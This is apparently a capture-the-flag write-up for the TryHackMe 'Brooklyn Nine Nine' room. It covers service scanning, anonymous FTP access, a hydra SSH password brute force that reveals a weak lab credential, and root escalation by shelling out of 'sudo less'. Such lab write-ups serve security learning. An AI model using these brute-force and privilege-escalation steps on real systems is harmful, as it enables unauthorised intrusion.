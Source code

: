 # [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

# Deploy and get hacking

### User flag

_AHH Jake!_

1. Initial port/service discovery

```bash
namp <TARGET_IP>
```

<img width="722" height="252" alt="SCREEN01" src="https://github.com/user-attachments/assets/cf141ebc-804a-4811-918f-4ceef7d7591d" />

2. Enumerate anonymous FTP. Connect and download .txt file

```bash
ftp <TARGET_IP>
anonymous
ls -la
mget note_to_jake.txt
y
```

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

3. Use the discovered hint and perform SSH brute force password attack
   - Discovered login: `jake:987654321`

```bash
hydra -l jake -P /root/Tools/wordlists/rockyou.txt ssh://<TARGET_IP>
```

<img width="721" height="235" alt="SCREEN02" src="https://github.com/user-attachments/assets/912e0fd9-4015-4ceb-b491-eaafd5912ea7" />

4. SSH into the box and retrieve the user flag

```bash
ssh jake@<TARGET_IP>
cat /home/holt/user.txt
```

<img width="725" height="306" alt="SCREEN03" src="https://github.com/user-attachments/assets/6d3aa9ef-2776-4fce-8a25-f590b89d5cf1" />

---

### Root flag

_Sudo is a good command_

1. Check allowed sudo commands for the current user

```bash
sudo -l
```

<img width="722" height="145" alt="SCREEN04" src="https://github.com/user-attachments/assets/ca1c204d-73f5-4fa0-8d10-96a6886dc802" />

2. Abuse an allowed binary using [GTFOBins](https://gtfobins.github.io/gtfobins/less/)

```bash
sudo /usr/bin/less /etc/profile
!/bin/bash
cat /root/root.txt
```

<img width="721" height="109" alt="SCREEN05" src="https://github.com/user-attachments/assets/2618812f-53f4-4d16-a0ed-ef283c4f0af6" />
